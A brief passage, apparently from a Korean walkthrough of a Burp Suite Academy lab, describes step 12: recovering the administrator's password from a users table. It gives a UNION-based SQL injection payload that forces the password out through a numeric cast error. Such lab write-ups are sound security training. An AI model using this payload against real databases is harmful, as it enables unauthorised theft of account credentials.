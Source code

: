 ![](/images/burp-academy-serial-8-17.png)



## 12. users 테이블에서 administrator의 패스워드 알아내기 

쿼리를 다음과 같이 수정한다. 

```sql
' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--
```


이를 보내면 다음과 같은 결과가 돌아온다. 이를 통해 administrator의 패스워드를 알아냈다. 
